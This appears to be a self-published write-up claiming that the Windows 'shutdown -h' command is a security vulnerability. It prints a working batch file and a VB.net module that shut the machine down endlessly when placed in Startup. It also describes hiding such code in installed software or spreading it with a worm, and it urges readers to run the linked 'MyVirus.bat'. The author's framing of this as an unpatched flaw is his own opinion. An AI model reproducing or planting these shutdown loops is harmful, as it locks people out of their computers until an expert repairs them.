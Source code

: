 My World Wide Security Patch for Windows 2000/XP/7/8/10/11 and all Kind of Windows Servers 32bits/64bits.

Author : Wadï Mami

Publication Date : 12/07/2021

Email : wmami@steg.com.tn / didipostman77@gmail.com 


Introduction

Since 2015 I have contacted Microsoft for a security vulnerability which is a Dos (Disk Operating System) command. For this reason I have written .bat file which exploits this command. But MSRC (Microsoft Security Response Center) consider it as a malware and I must report it like that. I was not agree but I accepted and I reported it as a malware but they did nothing
. 
Please visit https://github.com/didipostman/MyVirus

But let me explain to you the real problem.


The problem

If shutdown command is executed in Windows startup you can not use your Windows PC/Laptop anymore till an expert intervention by booting with a bootable CD/DVD or a system Flash disk and then exploring the startup Windows for a suspicious file that exploit shutdown command and delete it.
Think if the following .bat file is copied in the start up Windows by a Worm 
Please visit:

https://stackoverflow.com/questions/35587412/how-this-batch-worm-works

https://engineering.purdue.edu/kak/compsec/NewLectures/Lecture22.pdf

here I give only concept Don't use this code whith malicious intention!

---------------------------------------------------------------

echo off

rem clean screen

cls

rem definition return point

:loop

rem execute shutdown -h

shutdown -h

rem return to :loop

goto loop

That kind of code can be hidden in software you use or you download and install in Windows Startup. It works fine for windows 2000/XP/7/8/10/11 etc.
Moreover here a VB.net equivalent code to the .bat DOS Shell above A VB.net Source Code as an example It works fine for Windows XP/7/8/10/11.
It is a VB.net Module that can generate .exe file

---------------------------------------------------------

Imports System.Runtime.InteropServices 

Module Module1 

Sub Main()

Dim process As Process = process.Start("cmd","/C shutdown -h")

Main() 

End Sub

As you can see all high generation Languages can exploit this DOS command shutdown –h which leads to a DoS a denial of service well a denial of all the services as your Windows Pc is intact but you can’t make use of it.

Conclusion :
What is the solution to avoid this kind of exploit of this DOS command shutdown.
Shall Microsoft Depricated it or shall keep it assuming security measurements in using it.
I think the patch for all kind of Windows is to ask for account password anytime shutdown is invoked.

Just try to execute MyVirus.bat to figure out the problem !!!!


https://github.com/didipostman/MyVirus

Shutdown: Allow system to be shut down without having to log on

 https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/shutdown-allow-system-to-be-shut-down-without-having-to-log-on
